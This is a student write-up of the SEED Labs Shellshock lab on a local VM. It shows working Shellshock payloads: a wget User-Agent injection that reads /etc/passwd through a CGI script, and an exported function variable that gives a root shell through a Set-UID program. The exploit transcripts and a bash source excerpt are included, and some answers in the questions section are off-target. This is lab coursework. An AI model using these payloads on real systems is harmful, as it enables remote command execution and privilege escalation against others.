

# SEEDlabs: Shellshock Attack Lab

## 0x00 Overview

On September 24, 2014, a severe vulnerability in Bash was identified. Nicknamed Shellshock, this vulnerability can exploit many systems and be launched either remotely or from a local machine.

We need a bash which has shellshock vulnerabilities.

```sh
seed@ubuntu:~$ ls -al /bin/sh
lrwxrwxrwx 1 root root 9 Aug  9 05:05 /bin/sh -> /bin/bash
seed@ubuntu:~$ bash -version
GNU bash, version 4.2.25(1)-release (i686-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
seed@ubuntu:~$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
vulnerable
this is a test
```



## 0x01 Lab Tasks

### Task 1: Attack CGI programs

In this task, we will launch the Shellshock attack on a remote web server. Many web servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web applications. Many CGI programs are written using shell script. Therefore, before a CGI program is executed, the shell program will be invoked first, and such an invocation is triggered by a user from a remote computer.

Step 1: Set up the CGI Program. You can write a very simple CGI program (called `myprog.cgi`) like the following. It simply prints out "Hello World" using shell script.

```sh
#! /bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

Please place the above CGI program in the `/usr/lib/cgi-bin` directory and set its permission to 755 (so it is executable). You need to use the root privilege to do these (using sudo), as the folder is only writable by the root. This folder is the default CGI directory for the Apache web server.

To access this CGI program from the Web, you can either use a browser by typing the following URL: `http://localhost/cgi-bin/myprog.cgi`, or use the following command line program `curl` to do the same thing:

```sh
curl http://localhost/cgi-bin/myprog.cgi
```

Step 2: Launch the Attack. After the above CGI program is set up, you can launch the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that you can achieve something that you cannot do as a remote user. For example, you can delete some file on the server, or fetch some file (that is not accessible to the attacker) from the server.

We call it with wget to swap out the User Agent string. E.g. this will show the contents of `/etc/passwd`:

```sh
seed@ubuntu:~$ wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi
--2016-08-09 05:06:08--  http://localhost/cgi-bin/myprog.cgi
Resolving localhost (localhost)... ::1, 127.0.0.1
Connecting to localhost (localhost)|::1|:80... failed: Connection refused.
Connecting to localhost (localhost)|127.0.0.1|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: `myprog.cgi.1'

    [ <=>                                   ] 1,993       --.-K/s   in 0s      

2016-08-09 05:06:08 (49.1 MB/s) - `myprog.cgi.1' saved [1993]
```

### Task 2: Attack Set-UID programs

In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let `/bin/sh` to point to `/bin/bash` (by default, it points to `/bin/dash` in our SEED Ubuntu 12.04 VM). You can do it using the following command:

```sh
sudo ln -sf /bin/bash /bin/sh
```

(a) The following program is a Set-UID program, which simply runs the "`/bin/ls -l`" command. Please compile this code, make it a Set-UID program, and make `root` be its owner. As we know, the `system()` function will invoke "`/bin/sh -c`" to run the given command, which means `/bin/bash` will be invoked. Can you use the Shellshock vulnerability to gain the root privilege?

```c
#include <stdio.h>
void main()
{
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```

It should be noted that using `setuid(geteuid())` to turn the real uid into the effective uid is not a common practice in Set-UID programs, but it does happen.
Now we hack it.

```sh
seed@ubuntu:~$ sudo su
root@ubuntu:/home/seed# gcc -o shock shock.c 
root@ubuntu:/home/seed# chmod u+s shock
root@ubuntu:/home/seed# ls -al shock
-rwsr-xr-x 1 root root 7238 Aug  9 19:35 shock
root@ubuntu:/home/seed# exit
exit
seed@ubuntu:~$ export foo='() { :; }; bash'
[08seed@ubuntu:~$ ./shock 
root@ubuntu:/home/seed# 
```

(b) Now, remove the `setuid(geteuid())` statement from the above program, and repeat your attack. Can you gain the root privilege? Please show us your experiment results.

```sh
root@ubuntu:/home/seed# ./shock_1 
total 75228
drwxr-xr-x  4 seed seed     4096 Aug  9 05:35 Desktop
drwxr-xr-x  3 seed seed     4096 Dec  9  2015 Documents
drwxr-xr-x  2 seed seed     4096 Aug  9 04:40 Downloads
drwxrwxr-x  6 seed seed     4096 Sep 16  2014 elggData
-rw-r--r--  1 seed seed     8445 Aug 13  2013 examples.desktop
```

In our experiment, when that line is removed, the attack fails (with that line, the attack is successful). In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. This is verified from the bash source code (variables.c, between Lines 308 to 369).

```c
/* Initialize the shell variables from the current environment.
   If PRIVMODE is nonzero, don't import functions from ENV or
   parse $SHELLOPTS. */
void
initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
  char *name, *string, *temp_string;
  int c, char_index, string_index, string_length;
  SHELL_VAR *temp_var;

  create_variable_tables ();

  for (string_index = 0; string = env[string_index++]; )
    {

      char_index = 0;
      name = string;
      while ((c = *string++) && c != '=')
  ;
      if (string[-1] == '=')
  char_index = string - name - 1;

      /* If there are weird things in the environment, like `=xxx' or a
   string without an `=', just skip them. */
      if (char_index == 0)
  continue;

      /* ASSERT(name[char_index] == '=') */
      name[char_index] = '\0';
      /* Now, name = env variable name, string = env variable value, and
   char_index == strlen (name) */

      temp_var = (SHELL_VAR *)NULL;

      /* If exported function, define it now.  Don't import functions from
   the environment in privileged mode. */
      if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
  {
    string_length = strlen (string);
    temp_string = (char *)xmalloc (3 + string_length + char_index);

    strcpy (temp_string, name);
    temp_string[char_index] = ' ';
    strcpy (temp_string + char_index + 1, string);

    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);

    /* Ancient backwards compatibility.  Old versions of bash exported
       functions like name()=() {...} */
    if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
      name[char_index - 2] = '\0';

    if (temp_var = find_function (name))
      {
        VSETATTR (temp_var, (att_exported|att_imported));
        array_needs_making = 1;
      }
    else
      report_error (_("error importing function definition for `%s'"), name);

    /* ( */
    if (name[char_index - 1] == ')' && name[char_index - 2] == '\0')
      name[char_index - 2] = '(';   /* ) */
  }
```

We filter out the key part.

```c
void initialize_shell_variables(){
// Loop through all the environment variables
for (string_index = 0; string = env[string_index++]; ) {
     /*...*/
     /* If any export function, defined here */
     /* Can't import function defined in root mode */
     if (privmode == 0 && read_but_dont_execute == 0 &&
           STREQN (“() {“, string, 4)) {
           [...]
           // shellshock happend here
           // transfer function + run additional instruction
           parse_and_execute (temp_string, name,
                SEVAL_NONINT|SEVAL_NOHIST);
[...]
} }
```

(c) Another way to invoke a program in C is to use `execve()`, instead of `system()`. The following program does exactly what the program in (a) does. Please compile the code, and make it a Set-UID program that is owned by `root`. Launch your Shellshock attack on this new program, and describe and explain your observation.

```c
#include<string.h>
#include<stdio.h>
#include<stdlib.h>

char **environ;

int main()
{
    char *argv[3];
    
    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;
    
    setuid(geteuid()); // make real uid = effective uid
    execve(argv[0], argv, environ);
    
    return 0;
}
```

```sh
seed@ubuntu:~$ ./shock_c 
total 75248
drwxr-xr-x  4 seed seed     4096 Aug  9 05:35 Desktop
drwxr-xr-x  3 seed seed     4096 Dec  9  2015 Documents
drwxr-xr-x  2 seed seed     4096 Aug  9 04:40 Downloads
drwxr-xr-x  2 seed seed     4096 Aug 13  2013 Music
```

### Task 3: Questions

1. Other than the two scenarios described above (CGI and Set-UID program), is there any other scenario that could be affected by the Shellshock attack?
CVE-2014-6271, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187, CVE-2014-6277 and CVE-2014-6278.

2. What is the fundamental problem of the Shellshock vulnerability? What can we learn from this vulnerability?
Watching for security updates. Also keep an eye on any advice you may get from your ISP or other providers of devices you have that run embedded software. Do be cautious of emails requesting information or instructing you to run software.
